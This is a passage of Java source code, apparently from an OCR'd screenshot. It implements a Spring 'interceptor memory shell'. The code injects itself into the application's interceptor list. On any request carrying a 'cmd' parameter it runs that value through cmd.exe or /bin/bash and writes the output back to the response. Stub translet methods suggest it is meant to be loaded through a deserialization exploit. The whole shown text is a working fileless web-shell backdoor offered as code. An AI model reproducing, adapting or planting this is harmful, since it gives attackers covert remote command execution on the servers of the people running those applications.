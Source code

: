 ```java
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        InceptorMemShell evilInterceptor = new InceptorMemShell();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("ok");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setCharacterEncoding("gbk");
                java.io.PrintWriter printWriter = response.getWriter();
                ProcessBuilder builder;
                String o = "";
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    builder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    builder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                java.util.Scanner c = new java.util.Scanner(builder.start().getInputStream(),"gbk").useDelimiter("wocaosinidema");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.println(o);
                printWriter.flush();
                printWriter.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```